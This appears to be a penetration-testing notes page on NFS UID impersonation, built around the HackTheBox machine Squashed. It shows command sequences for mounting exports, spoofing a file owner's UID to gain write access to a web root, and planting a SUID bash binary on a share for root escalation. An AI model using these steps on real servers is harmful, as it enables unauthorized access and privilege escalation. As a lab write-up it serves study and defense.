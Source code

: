```yaml
---
description: >-
  NFS has no protocol for authorization or authentication, making it a
  vulnerable for misconfiguration and therefore exploitation.
---
```


# NFS Impersonation

#### The vulnerability

NFS is a server/client system enabling users to share files and directories across a network and allowing those shares to be mounted locally. In this case the user and group id for the share is 1001. NFS looks at ID's and use the system for it. If we make a user with user 1001 and groupid 1001 that user would own those files.

This vulnerbality can be found in: [https://app.hackthebox.com/machines/Squashed](https://app.hackthebox.com/machines/Squashed)

```bash
# List NFS shares
$ showmount -e 10.10.11.191                        
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

Mount the share

```bash
# Mounting the share
sudo mount -t nfs 10.10.11.191:/var/www/html /mnt

# Checking access
find /mnt -ls                       
   133456      4 drwxr-xr--   5 2017     www-data     4096 Oct 17 09:15 /mnt
find: ‘/mnt/.htaccess’: Permission denied
find: ‘/mnt/index.html’: Permission denied
find: ‘/mnt/images’: Permission denied
find: ‘/mnt/css’: Permission denied
find: ‘/mnt/js’: Permission denied
```

Checking who's owner

```bash
# -d flag for listing only directory
ls -ld /mnt
drwxr-xr-- 5 2017 www-data 4096 Oct 17 09:15 /mnt

# Check group ID
$ cat /etc/group | grep www-data
www-data:x:33:
```

We find the userid is 2017 and groupid to be 33. So by making a dummy user with userid 2017 we get access to the files.

```bash
# Set userid for user
$ sudo useradd dummy
$ sudo usermod -u 2017 dummy
$ sudo groupmod -u 33 dummy          

# Drop into bash                                                                                                                                                                                                 
$ sudo su dummy -c bash 
```

Now we have access to the files and folders, even write access.

```bash
# Write simple html
echo "Powned" > /mnt/powned.html
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

## Another example

In /etc/exports you find a configuration file used by NFS server. It defines directories that are shared and specifies access and permissions, as well as restrictions for those shares.

```sh
# Example
cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/opt/share *(rw,no_subtree_check)    
```

If we create a user with the same uid and then copy bash in to the mounted folder the binary will be owned by the target user. We will copy /bin/bash from target to nfs share then with with a users of targets id copy it to /tmp then replacing the bash file on the share again. Add SUID and then run from target.

```sh
# Find out ID of user 
id username
uid=902601108(mczen)

# Allow UID creation over 60000
Edit /etc/logins.defs and change the UID_MAX value

# Add user on my machine
sudo useradd zen -u 902601108
uid=902601108(zen) gid=1001(zen) groups=1001(zen)

# An my attacker
cp bash /tmp/
rm -rf bash
cp /tmp/bash .
chmod +xs bash

# On target
./bash -p
```
